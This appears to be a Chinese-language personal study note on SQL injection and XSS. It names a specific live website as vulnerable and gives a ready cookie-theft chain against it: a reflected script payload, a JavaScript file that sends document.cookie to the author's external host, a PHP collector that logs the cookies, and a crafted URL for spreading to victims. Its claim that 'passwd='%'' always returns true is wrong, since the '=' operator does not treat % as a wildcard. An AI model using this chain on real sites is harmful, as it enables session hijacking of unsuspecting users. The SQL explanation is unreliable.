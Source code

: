 # SQL注入

老生常谈，在登陆框使用通配符，后端没进行输入检测直接带进查询语句中永远都会返回真值。

```sql
select * from user where name='乱输入的东西' and passwd='%';
#这条语句永远返回真true
```

从而绕过登陆鉴权环节。

但是当今的web服务基本上都会进行输入检测，而且密码不是直接明文存储在数据库中。

| name    | passwd           | salt   |
| ------- | ---------------- | ------ |
| liuting | md5(明文密码 + salt) | string |

密码的校验一般是

```sql
select * from user where name='乱输入的东西' and passwd=MD5("%" + salt);
#可以看到，此时即使没有进行输入检测，%也无法形成通配绕过登陆
```

为什么要使用一个salt？ 

为了防止彩虹库撞击，黑客可能会有泄露的一大堆数据库账户密码，然后不断的一个个使用MD5哈希得到的值进行撞库，然而加入了用户级别的salt后，单纯的撞库无法破解。

# XSS注入/攻击

简单一点讲，就是前端（如果动态网页由前端渲染）或者后端（网页由后端渲染，比如php）没有对用户表单（论坛评论，搜索框等）进行检测，那么就会形成xss漏洞，黑客可以利用这个漏洞篡改你动态渲染出来的html网页。

xss注入实例（我终于也当了一回黑客..)

http://www.zghpw.com/

上面这个网页就存在xss漏洞，在搜索框嵌入js语句

```js
<script>alert(1);</script>
```

会反馈在请求回来的html页面中

![](/Users/liuting/Library/Application%20Support/marktext/images/2023-04-12-19-59-33-image.png)

因为后端php对网页进行渲染的时候没有检测用户输入合法性，把脚本嵌进了返回的html中

![](/Users/liuting/Library/Application%20Support/marktext/images/2023-04-12-20-00-45-image.png)

如果嵌入的是访问我的个人js文件，例如

```js
<script src="http://saintcoder.duapp.com/joke/joke.js"></script>
```

而js文件长这样, 功能是向我的（黑客的）后端web服务器发送cookie信息

```js
var img = document.createElement('img');
img.width = 0;
img.height = 0;
img.src = 'http://saintcoder.duapp.com/joke/joke.php?joke='+encodeURIComponent(document.cookie);
```

那么，我在有漏洞的这个网站上的所有cookie信息便被黑客截获。

```php
<?php
    @ini_set('display_errors',1);
    $str = $_GET['joke'];
    $filePath = "joke.php";

    if(is_writable($filePath)==false){
         echo "can't write";
    }else{
          $handler = fopen(filePath, "a");
          fwrite($handler, $str);
          fclose($handler);
    }
?>
```

我所要做的便是把这行嵌入js脚本的搜索语句到处散播，就可以截获大量该网站用户的cookie

```url
http://www.z.zghpw.cn/tosearch.do?page=0&world=%3Cscript%20src=%22http://saintcoder.duapp.com/joke/joke.js%22%3E%3C/script%3E
```

或者，我在论坛评论区这种大家都要加载评论信息的地方嵌入破坏网页的js脚本，那么只要看到这条评论的人都会显示错误的网页。
